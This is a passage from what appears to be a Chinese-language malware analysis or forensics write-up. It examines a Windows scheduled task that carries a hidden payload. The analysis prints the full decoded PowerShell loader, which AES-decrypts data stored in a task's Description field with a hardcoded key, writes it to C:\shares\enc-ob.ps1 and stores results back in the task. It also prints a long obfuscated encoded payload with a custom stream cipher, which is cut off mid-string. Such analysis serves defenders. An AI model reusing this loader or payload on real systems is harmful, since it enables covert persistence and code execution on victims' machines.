aQBuAGkAdABpAG8AbgAsACAANgAsACAAJAB1AHMAZQByACwAIAAkAG4AdQBsAGwALAAgACQAdABhAHMAawAuAEQAZQBmAGkAbgBpAHQAaQBvAG4ALgBQAHIAaQBuAGMAaQBwAGEAbAAuAEwAbwBnAG8AbgBUAHkAcABlACkACgB9AGMAYQB0AGMAaAAgAHsACgAgACAAIAAgAFcAcgBpAHQAZQAtAEUAcgByAG8AcgAgACIARgBhAGkAbABlAGQALgAuACIACgB9AAoAZgBpAG4AYQBsAGwAeQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AFIAZQBsAGUAYQBzAGUAQwBvAG0ATwBiAGoAZQBjAHQAKAAkAHMAYwBoAGUAZAB1AGwAZQByACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFsARQBuAHYAaQByAG8AbgBtAGUAbgB0AF0AOgA6AEUAeABpAHQAKAAwACkA</Arguments>
    </Exec>
  </Actions>
</Task>
```

上面代码的大概意思就是：Description字段包含的是经过AES加密的恶意命令或执行结果，Arguments字段包含的是Base64编码的PowerShell脚本

Arguments字段解码出来的内容如下：

```powershell
$target_path = "C:\shares\enc-ob.ps1"
$taskPath = "\"
$encryptionKey = [System.Convert]::FromBase64String("sXyZlzbmMvTLC6I2uVp0dQ==")
function ConvertTo-Base64($byteArray) {
    [System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
    [System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.Key = $key
    $aesManaged.GenerateIV()
    $encryptor = $aesManaged.CreateEncryptor()
    $utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0, $utf8Bytes.Length)
    $combinedData = $aesManaged.IV + $encryptedData
    return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $combinedData = ConvertFrom-Base64 $encryptedData
    $aesManaged.IV = $combinedData[0..15]
    $aesManaged.Key = $key
    $decryptor = $aesManaged.CreateDecryptor()
    $encryptedDataBytes = $combinedData[16..$combinedData.Length]
    $decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes, 0, $encryptedDataBytes.Length)
    return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
    $result = ""
    $folder = $scheduler.GetFolder($taskPath)
    $task = $folder.GetTask("PpQctPXM")
    $definition = $task.Definition
    if (Test-Path -Path $target_path) {
        $result = "[-] File already exists."
    }else{
        try {
            $description = $definition.RegistrationInfo.Description
            $decryptedDescription = Decrypt-Data $encryptionKey $description
            # base64 decode get raw data and save it to file
            $decodeData = ConvertFrom-Base64 $decryptedDescription
            # if target path not exists, create it
            $dir = Split-Path $target_path
            if (!(Test-Path -Path $dir)) {
                New-Item -ItemType Directory -Path $dir
            }
            $decodeData | Set-Content -Path "C:\shares\enc-ob.ps1" -Encoding Byte
            $result = "[+] Success."
        } 
        catch {
            $result = $_.Exception.Message
        }
    }
    $encryptedResult = Encrypt-Data $encryptionKey $result

    $definition.RegistrationInfo.Description = $encryptedResult
    $user = $task.Principal.UserId
    $folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null, $task.Definition.Principal.LogonType)
}catch {
    Write-Error "Failed.."
}
finally {
    [System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) | Out-Null
}
[Environment]::Exit(0)
```

这个代码的意思是从Windows计划任务的描述字段中读取加密的恶意文件，解密后保存到本地的 `C:\shares\enc-ob.ps1`

并且发现是 AES-CBC 加密，密文的前十六字节是IV，当前密钥是：`sXyZlzbmMvTLC6I2uVp0dQ==`

Description字段解密出来如下：

```powershell
Invoke-Command -ScriptBlock ([scriptblock]::Create([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('JABJAE4AUAB1AHQARgBpAEwARQAgAD0AIAAoAFsAcwB0AFIAaQBuAEcAXQA6ADoAZgBPAHIATQBhAHQAKAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAGUAegBCADkAZQB6AEYAOQBlAHoASgA5AGUAegBOADkAZQB6AFIAOQAnACkAKQApACwAJAAoACQAawA2ADkAMgA1AD0AMQA2ADcAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgAZQA0ACwAMAB4ADkAZAAsADAAeABmAGIALAAwAHgAZAA0ACwAMAB4AGMAZgApADsALQBqAG8AaQBuACgAJABiAHwAJQB7AFsAYwBoAGEAcgBdACgAJABfAC0AYgB4AG8AcgAkAGsANgA5ADIANQApAH0AKQApACwAIgAkACgAWwBjAGgAYQByAF0AMAB4ADYAMQApACQAKABbAGMAaABhAHIAXQAwAHgANwAyACkAJAAoAFsAYwBoAGEAcgBdADAAeAA2ADUAKQAkACgAWwBjAGgAYQByAF0AMAB4ADcAMwApACIALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAYgB5AHQAZQBbAF0AXQAoADAAeAA1AEMALAAwAHgANgA2ACkAKQApACwAKAAnAHsAMAB9AHsAMQB9ACcAIAAtAGYAIAAnAGwAJwAsACcAYQBnACcAKQAsACgAJwAuAGoAJwArACcAcABnACcAKQApACkADQAKACQATwBVAHQAUAB1AHQAZgBpAGwAZQAgAD0AIAAoAFsAcwB0AHIAaQBOAEcAXQA6ADoAZgBvAFIAbQBhAFQAKAAkACgAJABrADgANgAwADIAPQAyADIANgA7ACQAYgA9AFsAYgB5AHQAZQBbAF0AXQAoADAAeAA5ADkALAAwAHgAZAAyACwAMAB4ADkAZgAsADAAeAA5ADkALAAwAHgAZAAzACwAMAB4ADkAZgAsADAAeAA5ADkALAAwAHgAZAAwACwAMAB4ADkAZgAsADAAeAA5ADkALAAwAHgAZAAxACwAMAB4ADkAZgAsADAAeAA5ADkALAAwAHgAZAA2ACwAMAB4ADkAZgAsADAAeAA5ADkALAAwAHgAZAA3ACwAMAB4ADkAZgAsADAAeAA5ADkALAAwAHgAZAA0ACwAMAB4ADkAZgApADsALQBqAG8AaQBuACgAJABiAHwAJQB7AFsAYwBoAGEAcgBdACgAJABfAC0AYgB4AG8AcgAkAGsAOAA2ADAAMgApAH0AKQApACwAJwBDACcALAAkACgAJABrADMAMAA5ADEAPQAnADMAZgBvACkAKgAnADsAJABiAD0AWwBiAHkAdABlAFsAXQBdACgAMAB4ADAAOQApADsAJABrAGIAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABrADMAMAA5ADEAKQA7AC0AagBvAGkAbgAoADAALgAuACgAJABiAC4ATABlAG4AZwB0AGgALQAxACkAfAAlAHsAWwBjAGgAYQByAF0AKAAkAGIAWwAkAF8AXQAtAGIAeABvAHIAJABrAGIAWwAkAF8AJQAkAGsAYgAuAEwAZQBuAGcAdABoAF0AKQB9ACkAKQAsACQAKAAkAGsAOQA0ADIAMgA9ACcAVgBCAFYATQBYACcAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgAMABBACwAMAB4ADMAMQApADsAJABrAGIAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABrADkANAAyADIAKQA7AC0AagBvAGkAbgAoADAALgAuACgAJABiAC4ATABlAG4AZwB0AGgALQAxACkAfAAlAHsAWwBjAGgAYQByAF0AKAAkAGIAWwAkAF8AXQAtAGIAeABvAHIAJABrAGIAWwAkAF8AJQAkAGsAYgAuAEwAZQBuAGcAdABoAF0AKQB9ACkAKQAsACQAKAAkAGsANQAyADYAOQA9ACcANwB2ADIAQgB2ACcAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgANQBGACwAMAB4ADEANwAsADAAeAA0ADAAKQA7ACQAawBiAD0AWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAawA1ADIANgA5ACkAOwAtAGoAbwBpAG4AKAAwAC4ALgAoACQAYgAuAEwAZQBuAGcAdABoAC0AMQApAHwAJQB7AFsAYwBoAGEAcgBdACgAJABiAFsAJABfAF0ALQBiAHgAbwByACQAawBiAFsAJABfACUAJABrAGIALgBMAGUAbgBnAHQAaABdACkAfQApACkALAAoACcAewAwAH0AewAxAH0AewAyAH0AJwAgAC0AZgAgACcAZQAnACwAJwBzACcALAAnAFwAZQAnACkALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAGIAbQBNAHUAYQBuAEEAPQAnACkAKQApACwAKAAnAHsAMAB9ACcAIAAtAGYAIAAnAGcAJwApACkAKQANAAoAJABDACAAPQAgAEAAewANAAoAIAAgACAAIAAoAC0AagBvAGkAbgAoAFsAYwBIAGEAUgBdADAAeAA3ADAALAAgAFsAYwBoAGEAcgBdADAAeAAzADEAKQApACAAPQAgACgAWwBTAFkAcwBUAGUAbQAuAHQARQBYAHQALgBFAG4AQwBPAEQASQBuAEcAXQA6ADoAdQBUAGYAOAAuAEcAZQBUAFMAVABSAEkAbgBHACgAWwBTAFkAcwB0AGUAbQAuAGMAbwBuAFYARQBSAHQAXQA6ADoAZgByAG8AbQBiAEEAUwBFADYANABzAFQAUgBJAE4AZwAoACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAVwBWAFoAawBWADAANQBCAFAAVAAwAD0AJwApACkAKQApACkAKQANAAoAIAAgACAAIAAoAFsAcwBZAHMAdABFAG0ALgB0AGUAeAB0AC4ARQBOAGMAbwBkAEkATgBHAF0AOgA6AFUAVABmADgALgBHAGUAVABzAFQAUgBpAE4AZwAoAFsAcwBZAHMAVABFAG0ALgBDAE8AbgB2AGUAUgB0AF0AOgA6AEYAcgBvAE0AYgBhAHMARQA2ADQAUwB0AHIAaQBOAEcAKAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAYgB5AHQAZQBbAF0AXQAoADAAeAA2ADMALAAwAHgANAA0ACwAMAB4ADQAOQAsADAAeAAzAEQAKQApACkAKQApACkAIAA9ACAAKAAtAGoAbwBpAG4AKAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAFUAagBJAD0AJwApACkAKQAsACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAVgBqAEIATQAnACkAKQApACwAIgAkACgAWwBjAGgAYQByAF0AMAB4ADUANgApACQAKABbAGMAaABhAHIAXQAwAHgANABBACkAJAAoAFsAYwBoAGEAcgBdADAAeAA2ADgAKQAkACgAWwBjAGgAYQByAF0AMAB4ADYAMgApACQAKABbAGMAaABhAHIAXQAwAHgANgBEACkAJAAoAFsAYwBoAGEAcgBdADAAeAA1ADIAKQAkACgAWwBjAGgAYQByAF0AMAB4ADcANgApACQAKABbAGMAaABhAHIAXQAwAHgANgAyACkAIgAsACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAVQBUADAAOQAnACkAKQApACkAKQANAAoAIAAgACAAIAAkACgAJABLADQANwA0ADkAPQAnAGEAIwB1AFgAPQB7AGIAcwBFADAAaAB7ADwAOQA8ACcAOwAkAGIAPQBbAEIAeQB0AGUAWwBdAF0AKAAwAHgAMQAxACwAMABYADEAMAApADsAJABLAGIAPQBbAHMAWQBTAFQAZQBtAC4AdABlAHgAVAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgB1AHQARgA4AC4ARwBlAHQAYgBZAFQARQBTACgAJABLADQANwA0ADkAKQA7AC0AagBvAGkAbgAoADAALgAuACgAJABCAC4AbABlAG4ARwBUAEgALQAxACkAfAAlAHsAWwBDAEgAYQBSAF0AKAAkAEIAWwAkAF8AXQAtAGIAeABvAHIAJABLAGIAWwAkAF8AJQAkAGsAYgAuAEwAZQBuAEcAVABoAF0AKQB9ACkAKQAgAD0AIAAoACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAZQB6AEIAOQBlAHoARgA5AGUAegBKADkAZQB6AE4AOQBlAHoAUgA5AGUAegBWADkAJwApACkAKQAgAC0ARgAgACgAJwB7ADAAfQAnACAALQBmACAAJwBUAG0AVgAnACkALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAE0AMAB3AD0AJwApACkAKQAsACQAKAAkAGsANAA2ADgANgA9ACcAWQAhAEQAMABlAE4AcwBPADgAUwBHACoAJwA7ACQAYgA9AFsAYgB5AHQAZQBbAF0AXQAoADAAeAAwAEMALAAwAHgAMQA4ACwAMAB4ADIARAApADsAJABrAGIAPQBbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABrADQANgA4ADYAKQA7AC0AagBvAGkAbgAoADAALgAuACgAJABiAC4ATABlAG4AZwB0AGgALQAxACkAfAAlAHsAWwBjAGgAYQByAF0AKAAkAGIAWwAkAF8AXQAtAGIAeABvAHIAJABrAGIAWwAkAF8AJQAkAGsAYgAuAEwAZQBuAGcAdABoAF0AKQB9ACkAKQAsACgALQBqAG8AaQBuACgAJwBhAG0AJwAsACcAVgAnACkAKQAsACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACcAYQBtAFIAQgBQAFEAPQA9ACcAKQApACkALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAYgB5AHQAZQBbAF0AXQAoADAAeAAzAEQAKQApACkAKQANAAoAIAAgACAAIAAoAFsAUwB5AFMAdABlAE0ALgB0AGUAWAB0AC4ARQBuAGMATwBEAEkAbgBHAF0AOgA6AFUAdABGADgALgBHAGUAdABzAHQAcgBJAE4AZwAoAFsAUwB5AHMAVABFAE0ALgBDAE8ATgBWAGUAcgBUAF0AOgA6AGYAUgBvAE0AQgBhAFMARQA2ADQAUwB0AFIAaQBOAGcAKAAkACgAJABrADYANAA4ADQAPQAnAC0AdwBWAHUAVwBtAEoAMAAyACcAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgANABFACwAMAB4ADMAMwAsADAAeAAwADcALAAwAHgANAA4ACkAOwAkAGsAYgA9AFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGsANgA0ADgANAApADsALQBqAG8AaQBuACgAMAAuAC4AKAAkAGIALgBMAGUAbgBnAHQAaAAtADEAKQB8ACUAewBbAGMAaABhAHIAXQAoACQAYgBbACQAXwBdAC0AYgB4AG8AcgAkAGsAYgBbACQAXwAlACQAawBiAC4ATABlAG4AZwB0AGgAXQApAH0AKQApACkAKQApACAAPQAgACgAJwB7ADAAfQB7ADEAfQB7ADIAfQB7ADMAfQB7ADQAfQB7ADUAfQB7ADYAfQB7ADcAfQB7ADgAfQB7ADkAfQB7ADEAMAB9AHsAMQAxAH0AewAxADIAfQB7ADEAMwB9ACcAIAAtAEYAIAAiACQAKABbAGMAaABhAHIAXQAwAHgANQA1ACkAJAAoAFsAYwBoAGEAcgBdADAAeAAzADMAKQAkACgAWwBjAGgAYQByAF0AMAB4ADYAQwApACQAKABbAGMAaABhAHIAXQAwAHgANwBBACkAJAAoAFsAYwBoAGEAcgBdADAAeAA2ADQAKQAiACwAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJwBSADEAWQA9ACcAKQApACkALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAYgB5AHQAZQBbAF0AXQAoADAAeAA3ADQALAAwAHgANABDACwAMAB4ADYAQwAsADAAeAA0AEUAKQApACkALAAkACgAJABrADUANgA4ADUAPQAyADEANAA7ACQAYgA9AFsAYgB5AHQAZQBbAF0AXQAoADAAeABiAGEALAAwAHgAOABmACwAMAB4AGUANQAsADAAeAA4ADAAKQA7AC0AagBvAGkAbgAoACQAYgB8ACUAewBbAGMAaABhAHIAXQAoACQAXwAtAGIAeABvAHIAJABrADUANgA4ADUAKQB9ACkAKQAsACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBiAHkAdABlAFsAXQBdACgAMAB4ADcAOQAsADAAeAA2ADEAKQApACkALAAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAnAFcAQQA9AD0AJwApACkAKQAsACgALQBqAG8AaQBuACgAJwBSADUAJwAsACcATABrACcAKQApACwAKABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJwBUAG4AbABsACcAKQApACkALAAkACgAJABrADMAMgA4ADQAPQA1ADYAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgANgAwACwAMAB4ADcAYQApADsALQBqAG8AaQBuACgAJABiAHwAJQB7AFsAYwBoAGEAcgBdACgAJABfAC0AYgB4AG8AcgAkAGsAMwAyADgANAApAH0AKQApACwAJAAoACQAawA3ADkAOAA4AD0AMQA1ADAAOwAkAGIAPQBbAGIAeQB0AGUAWwBdAF0AKAAwAHgAYQA2ACwAMAB4AGYANAAsADAAeABhADQALAAwAHgAZgAyACwAMAB4AGUAZgApADsALQBqAG8AaQBuACgAJABiAHwAJQB7AFsAYwBoAGEAcgBdACgAJABfAC0AYgB4AG8AcgAkAGsANwA5ADgAOAApAH0AKQApACwAKAAnAHsAMAB9AHsAMQB9AHsAMgB9AHsAMwB9ACcAIAAtAGYAIAAnAFkAWAAnACwAJwBCACcALAAnAG8AJwAsACcAZQAnACkALAAiACQAKABbAGMAaABhAHIAXQAwAHgANQAzACkAJAAoAFsAYwBoAGEAcgBdADAAeAAzADUAKQAkACgAWwBjAGgAYQByAF0AMAB4ADUANAApACQAKABbAGMAaABhAHIAXQAwAHgANQAzACkAIgAsACgAJwB7ADAAfQB7ADEAfQB7ADIAfQAnACAALQBmACAAJwBFAEUAJwAsACcAeQAnACwAJwBOACcAKQAsACgAJwB7ADAAfQB7ADEAfQB7ADIAfQAnACAALQBmACAAJwBUACcALAAnAFkAJwAsACcAPQAnACkAKQANAAoAfQAKAAoAJABFACAAPQAgAHsAcABhAHIAYQBtACgAJABzACkAIABbAFMAeQBTAFQARQBNAC4AVABlAHgAVAAuAEUATgBjAE8ARABpAE4AZwBdADoAOgBVAHQAZgA4AC4AZwBFAFQAUwBUAFIAaQBuAGcAKABbAFMAeQBzAFQAZQBNAC4AQwBPAG4AdgBFAFIAdABdADoAOgBGAFIATwBtAGIAYQBzAGUANgA0AHMAVAByAGkATgBHACgAJABTACkAKQB9AAoACgAkAEMAbQBEACAAPQAgACYAIAAkAEUAIAAkAEMALgBQADEADQAKACYAIAAkAGMATQBkACAAJAAoACQAawAxADIAMgA3ACAAPQAgACgAMQAxACAAKgAgADEAMwApADsAJABCAD0AWwBiAHkAVABlAFsAXQBdACgAMAB4AGMAOAAsADAAeABFAGEALAAwAFgARgBCACwAMAB4AGEAMgAsADAAeABkAEQALAAwAFgARQBlACwAMAB4AGUAMQAsADAAWABFAEIALAAwAHgAZQAwACwAMABYAEUAMgAsADAAeABhAEYALAAwAHgARgAzACwAMAB4AEEARgAsADAAeABjADAALAAwAHgAZgBBACwAMABYAEYAQgAsADAAeABhADIALAAwAFgAYwAxACwAMABYAGYAYQAsADAAeABlADMALAAwAHgARQAzACkAOwAtAGoAbwBpAG4AKAAkAEIAfAAlAHsAWwBDAEgAYQBSAF0AKAAkAF8ALQBCAHgAbwByACQAawAxADIAMgA3ACkAfQApACkACgAKAGYAdQBuAGMAdABpAG8AbgAgAEkAbgBpAHQASQBhAEwAaQBaAEUALQBTAFQAYQB0AGUAIAB7AA0ACgAgACAAIAAgAHAAYQByAGEAbQAoACQAawBlAFkAKQANAAoAIAAgACAAIAAkAHMAIAA9ACAAMAAuAC4AMgA1ADUAIAB8ACAAJQAgAHsAIABbAGIAWQBUAEUAXQAkAF8AIAB9AA0ACgAgACAAIAAgACQAagAgAD0AIAAoADYANQAgACsAIAAtADYANQApAA0ACgAgACAAIAAgAGYAbwByACAAKAAkAEkAIAA9ACAAKAAxADQAMgAgACUAIAA3ADEAKQA7ACAAJABJACAALQBsAHQAIAAyADUANgA7ACAAJABpACsAKwApACAAewANAAoAIAAgACAAIAAgACAAIAAgACQASgAgAD0AIAAoACQASgAgACsAIAAkAHMAWwAkAGkAXQAgACsAIAAkAEsARQBZAFsAJABJACAAJQAgACQASwBlAHkALgBMAGUAbgBHAHQASABdACkAIAAtAGIAYQBuAGQAIAAwAFgAZgBmAA0ACgAgACAAIAAgACAAIAAgACAAJABzAFsAJABpAF0ALAAgACQAUwBbACQAagBdACAAPQAgACQAcwBbACQASgBdACwAIAAkAHMAWwAkAGkAXQANAAoAIAAgACAAIAB9AA0ACgAgACAAIAAgAHIAZQB0AHUAcgBuACAAJABTAA0ACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABQAFIAbwBDAEUAcwBTAC0AUwBUAHIAZQBhAG0AIAB7AA0ACgAgACAAIAAgAHAAYQByAGEAbQAoACQAZABhAHQAYQAsACAAJABLAGUAeQApAAoACgAgACAAIAAgACQAUwB0AEEAVABlACAAPQAgAEkAbgBJAFQASQBBAEwAaQBaAGUALQBTAFQAYQB0AEUAIAAtAGsARQB5ACAAJABrAEUAeQANAAoAIAAgACAAIAAkAGkAIAA9ACAAKAAxADcAMQAgACUAIAA1ADcAKQA7ACAAJABqACAAPQAgACgAMgA5ACAALQBiAHgAbwByACAAMgA5ACkACgAKACAAIAAgACAAJABQAFIAZQBWAF8AYwBpAFAASABFAHIAXwBiAFkAdABlACAAPQAgACQASwBFAHkAWwAwAF0ACgAKACAAIAAgACAAJABvAFUAVAAgAD0AIABbAGIAWQB0AEUAWwBdAF0AOgA6AE4ARQB3ACgAJABEAEEAdABBAC4ATABlAE4ARwB0AGgAKQAKAAoAIAAgACAAIABmAG8AcgAoACQAbABPAE8AcABfAEkAZABYACAAPQAgACgAMQA2ADUAIAAlACAAMwAzACkAOwAgACQATABvAE8AcABfAEkARAB4ACAALQBsAHQAIAAkAEQAQQB0AEEALgBsAEUAbgBnAFQAaAA7ACAAJABMAG8AbwBQAF8ASQBkAFgAKwArACkAIAB7AAoACgAgACAAIAAgACAAIAAgACAAJABUAG8AVABhAGwAXwBrAEUAWQBTAFQAcgBlAEEAbQBfAEIAWQBUAGUAIAA9ACAAKAA3ADcAIAAtACAANwA3ACkADQAKACAAIAAgACAAIAAgACAAIABmAG8AcgAgACgAJABSAE8AdQBOAEQAIAA9ACAAKAAyADQAIAAtAGIAeABvAHIAIAAyADQAKQA7ACAAJABSAE8AdQBOAEQAIAAtAGwAdAAgACgAMwA3ACAALQBiAHgAbwByACAAMwA4ACkAOwAgACQAUgBvAFUATgBEACsAKwApACAAewANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABpACAAPQAgACgAJABJACAAKwAgADEAKQAgAC0AYgBhAG4AZAAgADAAWABmAEYADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQASgAgAD0AIAAoACQAagAgACsAIAAkAFMAVABBAHQAZQBbACQASQBdACkAIAAtAGIAYQBuAGQAIAAwAFgAZgBmAA0ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAVABhAHQARQBbACQASQBdACwAIAAkAHMAdABhAHQARQBbACQASgBdACAAPQAgACQAcwB0AGEAVABFAFsAJABKAF0ALAAgACQAcwB0AEEAdABlAFsAJABJAF0ACgAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQASwBFAHkAcwB0AFIAZQBBAG0AXwBiAHkAdABlAF8AUABhAFIAVAAgAD0AIAAkAFMAVABBAFQAZQBbACgAJABzAHQAQQBUAGUAWwAkAEkAXQAgACsAIAAkAHMAVABhAFQAZQBbACQAagBdACkAIAAtAGIAYQBuAGQAIAAwAFgARgBmAF0ADQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAdABvAFQAQQBMAF8ASwBlAFkAUwBUAFIAZQBhAE0AXwBCAHkAVABFACAAPQAgACQAdABPAHQAQQBsAF8AawBFAFkAcwBUAHIARQBhAE0AXwBCAFkAdABFACAALQBiAHgAbwByACAAJABLAEUAWQBzAHQAUgBlAEEAbQBfAGIAWQBUAGUAXwBQAEEAUgBUAA0ACgAgACAAIAAgACAAIAAgACAAfQAKAAoAIAAgACAAIAAgACAAIAAgACQAQwBpAHAAaABlAHIAXwBCAHkAdABFACAAPQAgACQAZABBAFQAYQBbACQAbABvAG8AUABfAEkAZABYAF0AIAAtAGIAeABvAHIAIAAkAFQATwB0AEE